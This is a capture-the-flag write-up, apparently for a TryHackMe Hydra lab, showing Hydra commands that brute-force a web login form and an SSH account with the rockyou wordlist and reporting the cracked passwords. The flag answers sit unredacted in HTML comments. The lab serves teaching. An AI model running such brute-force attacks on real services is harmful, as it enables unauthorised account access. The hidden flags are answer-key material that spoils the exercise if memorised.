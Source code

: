 > # Hydra

# Summrary

## 
1. Use Hydra to bruteforce molly's web password. What is flag 1?<br>
    Run the following command `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.62.241 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"`, I have tried login on browser first, when we attemped failed login the website return string `incorrect`.<br>
    ![](images/2.png)<br>
    The molly's web password is `sunshine`. Login on browser to retrieve the flag.<br>
    ![](images/3.png)<br>
    <!-- THM{2673a7dd116de68e85c48ec0b1f2612e} -->
    **Answer:** THM{\<redacted>}


1. Use Hydra to bruteforce molly's SSH password. What is flag 2?<br>
    Run the following command `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.62.241 -t 4 ssh`, the molly's ssh password is `butterfly`, use this cred to login via SSH then cat the flag file.<br>
    ![](images/1.png)<br>
    <!-- THM{c8eeb0468febbadea859baeb33b2541b} -->
    **Answer:** THM{\<redacted>}

